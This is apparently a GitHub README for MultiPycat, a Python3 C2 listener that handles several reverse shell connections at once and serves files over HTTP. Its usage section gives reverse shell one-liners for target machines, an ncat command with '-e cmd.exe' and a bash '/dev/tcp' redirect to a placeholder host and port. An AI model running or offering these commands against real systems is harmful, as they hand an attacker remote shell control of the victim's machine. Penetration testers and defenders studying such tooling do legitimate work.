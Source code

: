# MultiPycat
Multiple reverse shell connections handler written in Python3.

<img src="https://github.com/tomelic/MultiPycat/blob/main/example.png" width="500" height="300">

# Features
* Simultaneously accept multiple reverse shell connections from different devices
* Interacting with connections and going back and forth to the main interface
* Serve files over HTTP through the same port listening for reverse shell connections
* Serve specific files according to user-inputted whitelist
* Simplistically written in Python3
* No external dependencies or libraries

# Usage
Install `python3` or use the executable in the releases section

Run on C2 (Tested on Windows and Linux)
```
python3 MultiPycat.py <LISTENING PORT>
MultiPycat> help
```

Target machine examples
```
# windows
ncat <HOST> <PORT> -e cmd.exe

# linux/ macOS
bash -i >& /dev/tcp/<HOST>/<PORT> 0>&1 &
```
